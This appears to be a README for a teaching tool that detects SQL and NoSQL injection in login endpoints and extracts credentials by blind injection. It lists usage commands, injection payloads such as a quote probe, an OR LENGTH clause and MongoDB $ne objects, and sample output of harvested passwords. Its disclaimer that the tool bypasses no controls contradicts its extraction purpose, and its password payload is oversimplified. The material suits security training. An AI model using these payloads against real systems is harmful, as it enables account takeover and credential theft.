

# 📘 **db-tools — SQLi/NoSQLi Detection & Credential Extraction Demonstrator**

## 1. Introduction

`db-tools` is an educational Toolbox module designed to demonstrate how **SQL injection (SQLi)** and **NoSQL injection (NoSQLi)** vulnerabilities can be detected and exploited in controlled environments.

It performs:

- injection‑type detection  
- blind‑injection username enumeration  
- blind‑injection password extraction  
- realistic probing using randomised user‑agents and timing jitter  

This tool is ideal for:

- Windows PrivEsc Arena  
- THM database security rooms  
- attacker‑workflow demonstrations  
- defensive detection and forensic reasoning  
- teaching how injection flaws lead to credential exposure  

It is **non‑malicious**, **non‑destructive**, and intended for **educational use only**.

---

## 2. What This Tool Demonstrates

`db-tools` models the **attacker enumeration → exploitation → credential extraction workflow**, showing:

- how SQLi/NoSQLi is detected  
- how blind‑injection techniques leak structured data  
- how attackers enumerate usernames  
- how passwords can be extracted character‑by‑character  
- how defenders can recognise probing patterns  

It reinforces both **attacker literacy** and **defender intuition**.

---

## 3. High‑Level Workflow



---

## 4. Usage

### Basic SQLi/NoSQLi detection

```
db-tools --url http://target/login
```

### Extract password for a specific user

```
db-tools --url http://target/login --username admin
```

### Dry‑run (simulate without sending requests)

```
db-tools --url http://target/login --dry-run
```

### Verbose mode

```
db-tools --url http://target/login --verbose
```

### Logging + Hashmap traceability

```
db-tools --url http://target/login --log --hashmap
```

---

## 5. Output Files

When optional flags are used:

| File | Purpose |
|------|---------|
| `/var/log/db-tools.log` | Execution log (when `--log` is used) |
| `.hashmap/db-tools.hash` | SHA‑256 hash of the script (when `--hashmap` is used) |
| `.hashmap/db-tools.timestamp` | Timestamp of execution (when `--hashmap` is used) |

These reinforce **traceability**, **repeatability**, and **forensic analysis** — consistent across all Toolbox Python tools.

---

## 6. Injection Detection

`db-tools` sends a minimal probe:

```
{"input": "'"}
```

It then checks the response for known error signatures:

| Injection Type | Error Signatures |
|----------------|------------------|
| SQL Injection | `SQL syntax error`, `Unknown column`, `unclosed quotation mark` |
| NoSQL Injection | `MongoDB error`, `BSON error`, `Invalid JSON input` |

If detected:

```
[+] Site is vulnerable to SQL Injection.
```

or

```
[+] Site is vulnerable to NoSQL Injection.
```

If not:

```
[-] No SQL or NoSQL injection vulnerability detected.
```

---

## 7. Blind‑Injection Credential Extraction

### SQL Username Enumeration

`db-tools` uses payloads like:

```
' OR LENGTH(username)=<n> --
```

If the server responds with:

```
Invalid password: <username>
```

Then the username is discovered.

### SQL Password Extraction

Passwords are extracted using:

```
' OR LENGTH(password)=<n> --
```

Each discovered password is printed:

```
[+] Found password for admin: hunter2
```

### NoSQL Username Enumeration

Uses payloads like:

```
{"username": {"$ne": ["known_users"]}, "password": "random"}
```

### NoSQL Password Extraction

Uses payloads like:

```
{"username": "admin", "password": {"$ne": ["known_passwords"]}}
```

---

## 8. Example Output

```
[+] Site is vulnerable to SQL Injection.
[+] Found username: admin
[+] Found password for admin: pass123

Discovered Credentials:
- admin: pass123
```

---

## 9. Educational Value

`db-tools` is ideal for:

- demonstrating SQLi/NoSQLi detection  
- teaching blind‑injection enumeration  
- showing how structured data leaks through error‑based responses  
- modelling attacker workflows for defender training  
- THM rooms involving database exploitation  
- internal awareness training  

It is **not** intended for real‑world offensive use.

---

## 10. Limitations

- Assumes the target returns `"Invalid password"` on failed login  
- Only supports JSON POST endpoints  
- No CAPTCHA, rate‑limit, or lockout handling  
- Blind‑injection logic is simplified for teaching  
- Intended for **controlled environments** only  

These limitations are intentional — the tool focuses on **education**, not exploitation.

---

## 11. Summary

`db-tools` is a structured, educational injection‑testing tool that:

- detects SQLi/NoSQLi  
- performs blind‑injection enumeration  
- extracts credentials safely  
- models attacker workflows  
- reinforces defensive detection and forensic reasoning  
- integrates cleanly with the Toolbox architecture  

It is transparent, predictable, and ideal for PrivEsc Arena and THM‑style learning.

---

## 📢 Disclaimer

This tool performs **non‑destructive, educational demonstrations only**.  
It does **not** bypass security controls or perform offensive actions.  
Use responsibly and only in environments where you have explicit permission.

---

## 🤖 AI & Ethics Disclosure

This documentation was co‑authored with AI assistance.  
For details on responsible use, transparency, and authorship, see the **AI & Ethics** section in the Toolbox README.

🔙 Return to [Toolbox](https://github.com/Mark-a-Hamilton/Toolbox)

---
